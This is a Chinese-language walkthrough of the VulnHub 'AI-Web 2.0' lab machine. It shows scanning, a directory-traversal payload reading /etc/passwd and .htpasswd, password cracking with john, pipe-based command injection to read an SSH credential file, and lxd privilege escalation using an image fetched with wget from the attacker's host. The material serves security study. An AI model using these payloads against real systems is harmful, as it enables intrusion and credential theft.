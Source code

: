 # vulnhub靶场ai-web 2.0

配置环境 windows11 vmware 17.5 kali

靶机地址https://www.vulnhub.com/entry/ai-web-2,357/

![image-20231120211538433](http://111.229.225.13:81/i/2023/11/20/yzhpj5-2.png)

攻击机kali192.168.31.131

首先使用

```bash
arp-scan -l 
```

探测目标ip地址

![image-20231120211706884](http://111.229.225.13:81/i/2023/11/20/z0g7kq-2.png)

发现目标ip地址为

192.168.31.134

使用nmap工具进行信息收集

```bash
nmap -T4 -sV -O -A -P //-T4(速度) -sV(版本扫描和开启的服务) -O(操作系统) -p（所有端口） ip
```

![image-20231120211912626](http://111.229.225.13:81/i/2023/11/20/z1pbfs-2.png)

可以发现开放22和80端口，推测为ssh和http服务

先浏览器瞅一眼

![image-20231120212106360](http://111.229.225.13:81/i/2023/11/20/z2u9wh-2.png)

先尝试admin等其他常见用户名登录无果

然后点击signup发现这是一个注册接口

![image-20231120212213645](http://111.229.225.13:81/i/2023/11/20/z3gyux-2.png)

注册好username就可以直接进行登录，这里注册一个admin

![image-20231120212309584](http://111.229.225.13:81/i/2023/11/20/z41n65-2.png)

根据页面提示内容进行搜索

![image-20231120212953211](http://111.229.225.13:81/i/2023/11/20/z7w2ha-2.png)

![image-20231120213020420](http://111.229.225.13:81/i/2023/11/20/z89v37-2.png)

发现此为目录遍历漏洞

采用/download.php?file_name=.../etc/passwd的形式读取

![image-20231120213334820](http://111.229.225.13:81/i/2023/11/20/za55yj-2.png)

一点一点的尝试

../../../../../etc/passwd 

![image-20231120213411362](http://111.229.225.13:81/i/2023/11/20/zalsjs-2.png)

根据之前信息收集的结果来看，服务器采用apache

所以尝试读取/etc/apache2/.htpasswd文件

![image-20231120213957362](http://111.229.225.13:81/i/2023/11/20/zdup4c-2.png)

得到对应的hash密码

尝试使用工具破解

这里采用john工具进行破解，kali自带

github上的rockyou-45作为字典进行爆破https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-45.txt ，同时把hash密码存放在temp.txt中（自己建）

```bash
john --wordlist=rockyou-45.txt temp.txt 
```

![image-20231120214659301](http://111.229.225.13:81/i/2023/11/20/zi9olk-2.png)

再使用

```bash
john --show temp.txt 
```

命令查看密码

![image-20231120214754161](http://111.229.225.13:81/i/2023/11/20/ziln28-2.png)

发现密码为c.ronaldo

尝试之前发现的ssh端口，发现不是ssh账号密码

之前采用过

```bash
dirb http://192.168.31.134/
```

目录爆破

![image-20231120215000851](http://111.229.225.13:81/i/2023/11/20/zk27xp-2.png)

发现了一个页面

![image-20231120215121112](http://111.229.225.13:81/i/2023/11/20/zks6qf-2.png)

尝试用刚刚收集到的账号密码

账号aiweb2admin   密码c.ronaldo

发现可以登录

![image-20231120215232831](http://111.229.225.13:81/i/2023/11/20/zlgbf1-2.png)

根据提示内容，得知还有robots页面

![image-20231120215307497](http://111.229.225.13:81/i/2023/11/20/zlw2k5-2.png)

发现新的目录

![image-20231120215356221](http://111.229.225.13:81/i/2023/11/20/zm6amy-2.png)

ok命令执行

![image-20231120215419837](http://111.229.225.13:81/i/2023/11/20/zmkggw-2.png)

经测试 可以使用|执行其他命令 这里输入为 | whomai

这里也尝试过bash反弹shell但是没有用，可能是做了限制

![image-20231120215508900](http://111.229.225.13:81/i/2023/11/20/zn34jv-2.png)

采用find命令

```bash
|| find . -type f /var/www/html/webadmin/S0mextras
```

找寻网站下所有文件

![image-20231121153409443](http://111.229.225.13:81/i/2023/11/21/pdenfv-2.png)

发现了sshUserCred55512.txt文件

cat看一下

```bash
|| cat /var/www/html/webadmin/S0mextras/.sshUserCred55512.txt
```

![image-20231121153507358](http://111.229.225.13:81/i/2023/11/21/pdy1an-2.png)

ssh连接（windows10dos也可以连接，这里我采用xshelll）

![image-20231121153620062](http://111.229.225.13:81/i/2023/11/21/pemx25-2.png)

whoami，id查看权限

![image-20231121153702787](http://111.229.225.13:81/i/2023/11/21/pf41vt-2.png)

发现用户也属于lxd组

想到了lxd提权

使用

```bash
find / -perm -u=s -type f 2>/dev/null
```

从根目录查找具有root权限的二进制文件

![image-20231121154524864](http://111.229.225.13:81/i/2023/11/21/pk068g-2.png)

刚好发现了lxc也存在root权限

![image-20231121154627794](http://111.229.225.13:81/i/2023/11/21/pkm7uk-2.png)

所以采用lxd提权

在kali机上制作镜像，使用kali的root权限

lxd提权借鉴于[lxd/lxc组提权 - hirak0 - 博客园 (cnblogs.com)](https://www.cnblogs.com/hirak0/p/16111530.html#:~:text=如果你属于 lxd 或 lxc 组，你可以利用这个进行提权,在没有互联网的情况下利用 方法一 您可以在您的机器上安装此发行版构建器： https%3A%2F%2Fgithub.com%2Flxc%2Fdistrobuilder（按照 github 的说明进行操作）)

![image-20231121155010081](http://111.229.225.13:81/i/2023/11/21/pmw634-2.png)

我这边已经制作好镜像了

所以使用python -m http.server 自定义端口号

搭建vps

再使用靶机下载下来

```bash
wget -S http://192.168.31.131:8848/对应镜像
```

![image-20231121185003711](http://111.229.225.13:81/i/2023/11/21/ulgxio-2.png)



此时已经是root权限了

使用find命令查找flag

```bash
find / -name flag*
```



![image-20231121185731069](http://111.229.225.13:81/i/2023/11/21/upsqks-2.png)

最后在来一首cat查看

### 总结：

​	1、目录扫描

​	2、目录遍历

​	3、命令执行

​	4、**find命令**

​	5、**lxd提权**